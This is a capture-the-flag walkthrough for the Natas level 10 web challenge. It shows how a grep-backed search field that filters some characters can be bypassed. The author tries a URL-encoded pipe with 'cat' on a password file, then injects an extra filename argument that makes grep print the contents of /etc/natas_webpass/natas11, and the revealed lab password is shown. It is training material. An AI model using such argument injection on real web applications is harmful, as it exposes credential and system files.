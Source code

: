 ![](img/task_10_image_1.png)  
We get an error message, that we used some kind of illegal characters. So we need to find another way.  
We could try to urlencode some strings....  
[https://en.wikipedia.org/wiki/URL_encoding](https://en.wikipedia.org/wiki/URL_encoding)  
We need to do something with the `|` and the `/` characters  
Look for the 'Common characters after percent-encoding (ASCII or UTF-8 based)' section in the page, and find the character '|' and '/' characters:  

```text
%7C cat %2Fetc%2Fnatas_webpass%2Fnatas10
```
It does not work however...  
We have other methods, though.  
With grep, we can search in multiple files, not just one. This means, that is somehow we can send the path of the password file(which is in this case `/etc/natas_webpass/natas11`)  
The grep command works like this  
```bash
grep {string_to_search} {filename_1} {filename_2} {filename_3}
```
So, we need pick one 'random' letter (because grep is going to search for this letter in the natas11, and dictionary.txt file)  
So, for example we can write the following to the input field:  

```text
a /etc/natas_webpass/natas11
```

The output should be something like this:  
```text
Output:  
/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg  
dictionary.txt:African  
dictionary.txt:Africans  
dictionary.txt:Allah  
dictionary.txt:Allah's  
dictionary.txt:American  
dictionary.txt:Americanism  
dictionary.txt:Americanism's  
dictionary.txt:Americanisms  
dictionary.txt:Americans  
dictionary.txt:April  
dictionary.txt:April's  
dictionary.txt:Aprils  
```